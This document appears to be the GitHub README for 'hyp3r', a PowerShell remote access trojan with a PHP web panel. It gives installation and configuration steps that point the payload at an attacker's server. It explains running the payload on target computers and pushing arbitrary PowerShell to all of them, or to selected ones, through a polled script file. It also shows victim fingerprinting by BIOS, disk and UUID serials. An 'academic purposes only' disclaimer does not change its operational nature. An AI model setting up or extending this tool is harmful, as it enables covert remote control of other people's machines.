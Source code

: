 # hyp3r

<hr>

### hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

        ```powershell
	
        $verurl = 'http://your_website_url_or_ip/script.txt'
        $url = 'http://your_website_url_or_ip'
        $stop = 'the syntax of your choice to force stop the payload on the target machine'
	
        ```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:

        ```powershell
        [System.Console]::Beep(1000,300)
        ```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

        ```powershell
        if($env:COMPUTERNAME -eq "TARGET-PC") {
          echo "now it will only be executed by targets with the user TARGET-PC"
        }
        ```
  - If the COMPUTERNAME identifier is way to simple and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer
        ```powershell
        $a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
	      $b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
	      $c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
        $ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
        if($ids -eq "UNIQUE_IDENTIFIER") {
          doStuff()
        }
        ```

  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.

